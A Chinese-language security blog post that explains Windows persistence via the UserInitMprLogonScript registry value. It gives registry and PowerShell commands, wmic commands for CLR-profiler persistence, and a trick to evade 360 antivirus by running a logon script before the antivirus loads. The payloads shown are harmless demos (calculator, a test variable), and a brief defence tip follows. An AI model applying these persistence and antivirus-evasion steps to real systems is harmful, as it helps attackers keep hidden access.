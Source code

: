 ```yaml
---
layout: post
title: Use Logon Scripts to maintain persistence
---
```


## 0x00 前言
---

依旧是对后门利用方法做介绍，本次介绍的是使用Logon Scripts的方法。然而我在研究过程中发现了一个特别的用法，脚本优先于杀毒软件执行，能够绕过杀毒软件对敏感操作的拦截，本文将要具体介绍这个技巧。

**注:**

有些杀毒软件是可以做到优先于Logon Scripts启动的

## 0x01 简介
---

- Logon Scripts用法
- 绕过360对wmi调用的拦截
- 特别用法

## 0x02 Logon Scripts用法
---

思路来自于Adam@Hexacorn，地址如下：

http://www.hexacorn.com/blog/2014/11/14/beyond-good-ol-run-key-part-18/

### 简要介绍Logon Scripts的用法

注册表路径：`HKCU\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/1-1.png)

bat内容如下：

`start calc.exe`

注销，登录

执行脚本11.bat，弹出计算器


## 0x03 绕过360对通过wmi修改环境变量的拦截
---

在之前的文章[《Use CLR to maintain persistence》](https://3gstudent.github.io/Use-CLR-to-maintain-persistence/)提到过使用wmic修改环境变量的方法

命令如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

然而，360会对WMI的操作进行拦截，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/2-1.png)

其实通过WMI添加环境变量等价于在注册表`HKCR\Environment\`新建键值

所以对WMI的操作可以通过写注册表的操作进行代替


以上WMI命令可替换为如下powershell代码：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null

New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

## 0x04 特别用法
---

源于我的一个特别的想法

我在对该技巧研究的过程中，产生了一个有趣的想法，Logon Scripts启动的顺序是否优先于其他程序呢？

如果是的话，那么是否也优先于杀毒软件呢？

下面开始我的测试：


### 1、cmd输入如下代码

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
```

不出意外，被拦截


### 2、设置Logon Scripts

11.bat代码如下：

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
reg query HKEY_CURRENT_USER\Environment /V test
pause
```

### 3、启用Logon Scripts

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

由于调用WMI会被拦截，可以通过powershell实现，代码如下：

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

### 4、注销，重新登录，测试

如果注册表`HKCR\Environment\`成功被写入键值`test` `REG_SZ` `I run faster!`，说明Logon Scripts优先于杀毒软件执行，绕过杀毒软件的限制


完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/3.gif)

测试成功，验证我们的结论

## 0x05 防御
---

监控注册表键值`HKCR\Environment\UserInitMprLogonScript`


## 0x06 小结
---

本文对Logon Scripts的用法进行了测试，并且介绍了一个特别用法，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
站在防御的角度，要对此保持警惕。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
